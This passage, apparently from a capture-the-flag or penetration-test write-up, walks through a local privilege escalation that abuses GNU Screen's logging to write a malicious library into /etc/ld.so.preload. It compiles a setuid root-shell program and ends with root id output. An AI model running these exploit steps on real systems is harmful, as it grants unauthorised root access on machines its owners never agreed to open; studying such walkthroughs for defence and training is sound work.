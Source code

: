 ```bash
$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
```
Now we create another `C` file:

```bash
$ cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
	setuid(0);
	setgid(0);
	seteuid(0);
	setegid(0);
	execvp("/bin/sh", NULL, NULL);
}
EOF
```
Compile the second `C` file:

```bash
$ gcc -o /tmp/rootshell /tmp/rootshell.c
```
Then we run the following sequence of commands to obtain root:

```bash
$ cd /etc
$ umask 000
$ screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
$ screen -ls
$ /tmp/rootshell
$ id

uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
bOom!
